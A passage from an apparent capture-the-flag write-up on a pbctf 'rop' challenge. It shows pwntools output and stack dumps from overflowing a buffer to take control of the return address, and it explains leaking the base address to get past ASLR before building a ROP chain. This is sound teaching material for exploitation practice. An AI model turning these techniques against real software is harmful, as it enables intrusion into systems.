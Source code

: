 The program prints a congratulations message and the return address but then exits.
To gain control of the instruction pointer we simply need to add 12 additional junk bytes after the secret value followed by our desired return address.

```none
[+] Starting local process '/home/starfleetcadet75/Documents/pbctf/rop/bof.bin': pid 17616
b'Do you want color in the visualization? (Y/n) '
[*] Switching to interactive mode
[*] Process '/home/starfleetcadet75/Documents/pbctf/rop/bof.bin' stopped with exit code 0 (pid 17616)

0xffb6ad6c | 00 00 00 00 00 00 00 00 |
0xffb6ad74 | 00 00 00 00 00 00 00 00 |
0xffb6ad7c | 00 00 00 00 00 00 00 00 |
0xffb6ad84 | 00 00 00 00 00 00 00 00 |
0xffb6ad8c | ff ff ff ff ff ff ff ff |
0xffb6ad94 | ff ff ff ff ff ff ff ff |
0xffb6ad9c | ef be ad de 5c 8f 59 56 |
0xffb6ada4 | 5c 8f 59 56 b8 ad b6 ff |
0xffb6adac | 99 55 59 56 d0 ad b6 ff |
0xffb6adb4 | 00 00 00 00 00 00 00 00 |
Input some text: 
0xffb6ad6c | 41 41 41 41 41 41 41 41 |
0xffb6ad74 | 41 41 41 41 41 41 41 41 |
0xffb6ad7c | 41 41 41 41 41 41 41 41 |
0xffb6ad84 | 41 41 41 41 41 41 41 41 |
0xffb6ad8c | 41 41 41 41 41 41 41 41 |
0xffb6ad94 | 41 41 41 41 41 41 41 41 |
0xffb6ad9c | 66 6c 61 67 00 8f 59 56 |
0xffb6ada4 | 5c 8f 59 56 b8 ad b6 ff |
0xffb6adac | 99 55 59 56 d0 ad b6 ff |
0xffb6adb4 | 00 00 00 00 00 00 00 00 |
You did it! Congratuations!
Returning to address: 0x56595599
[*] Got EOF while reading in interactive
```

## Building the ROP Chain

The comment at the top of the source code tells us that in order to get the flag we must put the correct values into the EAX, EDI, and ESI registers and then trigger a breakpoint instruction.

```c
// This is what you need to do to get the first flag
// void print_flag() {
//   asm volatile("mov $1, %%eax; mov $0x31337, %%edi; mov $0x1337, %%esi; int3" ::: "eax");
// }
```

Since ASLR is enabled, we need to use an information leak to determine what the program's base address is at runtime.
The stack visualization that gets printed prior to reading in user input is perfect since our script can parse it to determine the base address and then rebase all of the ROP gadget addresses.
